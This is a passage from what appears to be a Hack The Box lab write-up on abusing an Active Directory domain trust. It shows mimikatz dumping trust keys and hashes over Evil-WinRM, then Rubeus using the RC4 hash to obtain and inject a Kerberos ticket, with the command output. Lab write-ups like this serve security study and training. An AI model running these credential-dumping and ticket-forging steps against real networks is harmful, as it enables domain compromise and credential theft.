 #### Performing the attack

```
*Evil-WinRM* PS C:\Users\freak\Desktop> ./mimikatz.exe "lsadump::trust /patch" exit
 [ Out ] MSSP.AD -> APEXCARGO.AD
    * 9/13/2024 8:31:16 PM - CLEAR   - d7 33 fd d4 af 9f 90 59 64 fa 57 e1 26 e6 a4 05 1d d7 c5 ae d6 06 13 b8 92 3c 09 8b ba b4 0f ea ac a1 42 26 ed 24 9c 7b c1 a8 24 ca 81 68 e3 b2 52 b5 e5 48 b5 c4 c2 a5 bb 5b 65 de 79 fe 2c 8d 44 32 be 30 8e 88 cc 25 44 34 04 74 74 12 8c e0 32 dd 15 b4 c8 82 73 4f d9 c8 83 96 47 c8 7e 92 0a 00 10 48 74 c4 4b 31 4a 4f 9d 00 94 89 f4 fb e7 b6 31 87 14 e6 3b a0 78 cb 76 52 00 e3 e5 c9 9f 23 cf 2a d5 d3 b2 fb 68 99 36 38 49 0f f0 5a fd d2 ba 6a e4 fd 60 70 32 ad 15 a7 bb 3a dd 8e 48 bd 28 07 e8 e3 c3 ff 97 7c 61 8b 90 45 40 11 3a d4 99 b4 14 1a b2 f3 45 e0 69 a6 d9 cd 0b dd 1e d7 87 29 da 57 04 67 97 5d 92 07 79 47 b9 db 9a 2b 1d b7 5e 55 d5 bb e3 2d 60 7d a7 34 fa 50 d7 99 7f ff 8f 03 91 bc 94 c5 24 a4 37 c9 04 f8
        * aes256_hmac       34065d2ac4681007159cc8e00bf20a094108d1dcedac9e30e87a10ab202b436c
        * aes128_hmac       ee7a9422591acf413183bbc69356e214
        * rc4_hmac_nt       caa876348a222d05f595aecd267d863c

 [ In-1] APEXCARGO.AD -> MSSP.AD

 [Out-1] MSSP.AD -> APEXCARGO.AD
    * 9/13/2024 8:31:16 PM - CLEAR   - 24 00 2e 00 38 00 45 00 52 00 43 00 62 00 29 00 34 00 2f 00 4f 00 5f 00 21 00 4a 00 74 00
        * aes256_hmac       1feaa6305dbfea6c9272453c5f2db9cde96fd785d302a4bf0a2e0782e86c7a49
        * aes128_hmac       fec8281e6115bda3350072195a94d2bf
        * rc4_hmac_nt       072f376106bee87ba2433ffc825af3e7

*Evil-WinRM* PS C:\Users\freak\Desktop>  .\Rubeus.exe asktgt /user:apexcargo$ /domain:mssp.ad /rc4:caa876348a222d05f595aecd267d863c /ptt
*Evil-WinRM* PS C:\Users\freak\Desktop> klist

Current LogonId is 0:0x26c921

Cached Tickets: (1)

#0>     Client: apexcargo$ @ MSSP.AD
        Server: krbtgt/mssp.ad @ MSSP.AD
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 9/13/2024 22:28:38 (local)
        End Time:   9/14/2024 8:28:38 (local)
        Renew Time: 9/20/2024 22:28:38 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
Let’s try again.

![We Got It](assets/images/posts/Trusts_htb/trust-key.png)
